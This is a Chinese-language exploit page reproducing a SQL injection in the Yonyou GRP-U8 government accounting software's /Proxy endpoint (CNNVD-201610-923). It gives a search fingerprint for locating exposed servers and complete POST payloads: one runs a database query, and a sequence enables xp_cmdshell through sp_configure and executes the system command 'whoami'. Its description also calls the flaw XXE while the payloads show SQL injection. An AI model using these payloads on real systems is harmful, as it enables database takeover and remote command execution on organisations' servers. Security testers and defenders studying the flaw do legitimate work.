 # 用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 影响版本

<a-checkbox checked>用友GRP-U8行政事业内控管理软件（新政府会计制度专版）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="用友GRP-U8行政事业内控管理软件"</a-checkbox></br>

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果



![img](../../../.vuepress/public/img/yongyou-1.png)



![img](../../../.vuepress/public/img/yongyou-2.png)



也可以调用 `xp_cmdshell` 来执行系统命令(大部分此系统为`windows`)

![img](../../../.vuepress/public/img/yongyou-3.png)

<a-checkbox checked>注意：大部分默认是不开启 xp_cmdshell 模块的</a-checkbox></br>



![img](../../../.vuepress/public/img/yongyou-4.png)



可以使用如下方法打开`xp_cmdshell方法`

将如下POST数据按顺序发送(`注意 master 改为当前数据库名`)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

<a-checkbox checked>执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会</a-checkbox></br>

发送请求后再使用此模块则会成功请求执行系统命令